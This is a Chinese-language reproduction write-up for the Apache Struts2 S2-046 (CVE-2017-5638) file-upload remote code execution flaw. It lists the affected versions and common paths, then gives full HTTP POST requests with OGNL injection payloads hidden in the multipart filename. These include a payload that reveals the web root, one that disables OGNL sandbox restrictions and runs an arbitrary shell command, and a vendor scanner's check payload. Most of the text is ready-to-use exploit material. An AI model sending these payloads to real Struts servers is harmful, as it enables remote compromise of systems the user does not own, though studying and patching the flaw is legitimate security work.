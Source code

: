 （CVE-2017-5638）s2-046
=======================

一、漏洞简介
------------

使用Jakarta插件，程序没有正确处理文件上传，通过构造HTTP请求头中的Content-type造成RCE

二、漏洞影响
------------

2.3.5-2.3.31

2.5.0-2.5.10

三、复现过程
------------

常见访问路径

> /struts2-showcase/fileupload/doUpload.action> /doUpload.action> /

    POST / HTTP/1.1
    Host: www.0-sec.org:8080
    Content-Length: 549
    Cache-Control: max-age=0
    Origin: http://192.168.95.128:8080
    Upgrade-Insecure-Requests: 1
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6WkqMfQ5bSxtxX4X
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.121 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Referer: http://192.168.95.128:8080/
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,und;q=0.7
    Connection: close

    ------WebKitFormBoundary6WkqMfQ5bSxtxX4X
    Content-Disposition: form-data; name="upload"; filename="Content-Disposition: form-data; name="image1"; filename="%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#memberAccess?(#memberAccess=#dm):((#context.setMemberAccess(#dm)))).(#o=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#req=@org.apache.struts2.ServletActionContext@getRequest()).(#path=#req.getRealPath('/')).(#o.println(#path)).(#o.close())}b"
    Content-Type: text/plain


    ------WebKitFormBoundary6WkqMfQ5bSxtxX4X

图片.png

抓流量 抓到一个 出web目录的 后面自己加\\x00b

    %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#context.setMemberAccess(#dm)))).(#o=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#req=@org.apache.struts2.ServletActionContext@getRequest()).(#path=#req.getRealPath('/')).(#o.println(#path)).(#o.close())}

跟s2-048 payload是一样的 只有回显 好多都是通用的

    %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}

还可以找到doUpload.action 然后真提交文件 拦截包 把filename 改了
要加\\x00b

s2-046 特别多的工具都可以用。。抓流量分析流量 分析出来几个功能payload

安恒工具 命令执行 payload

    POST / HTTP/1.1
    Host:192.168.95.128:8080
    Accept-Language: zh_CN
    User-Agent: Auto Spider 1.0
    Accept-Encoding: gzip, deflate
    Connection: close
    Content-Length: 874
    Content-Type: multipart/form-data; boundary=---------------------------7e116d19044c

    -----------------------------7e116d19044c
    Content-Disposition: form-data; name="test"; filename="%{(#test='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#req=@org.apache.struts2.ServletActionContext@getRequest()).(#res=@org.apache.struts2.ServletActionContext@getResponse()).(#res.setContentType('text/html;charset=UTF-8')).(#res.getWriter().print('struts2_security_')).(#res.getWriter().print('check')).(#res.getWriter().flush()).(#res.getWriter().close())}.b"
    Content-Type: text/plain

    x
    -----------------------------7e116d19044c--
